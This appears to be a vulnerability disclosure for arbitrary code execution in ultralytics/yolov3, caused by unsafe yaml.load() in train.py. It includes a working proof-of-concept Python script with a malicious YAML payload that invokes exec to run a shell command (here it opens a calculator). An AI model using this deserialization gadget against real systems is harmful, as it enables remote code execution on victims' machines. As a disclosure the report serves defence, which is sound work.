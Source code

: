# Description
**Arbitrary Code Excecution** in ultralytics/yolov3.
Yolov3 is a model from Ultralytics. Ultralytics is a U.S.-based particle physics and AI startup with over 6 years of expertise supporting government, academic and business clients. Ultralytics offer a wide range of vision AI services, spanning from simple expert advice up to delivery of fully customized, end-to-end production solutions.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. **NOTE : ** the fix iis to be done in **train.py**
# Exploit code
**Python File**
```python
import os
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('git clone https://github.com/ultralytics/yolov3.git')
os.chdir('yolov3/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python train.py --data exploit.yml --cfg exploit.yml --weights "" --batch-size 24')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786926671960866836/Screenshot_from_2020-12-11_16-21-30.png)
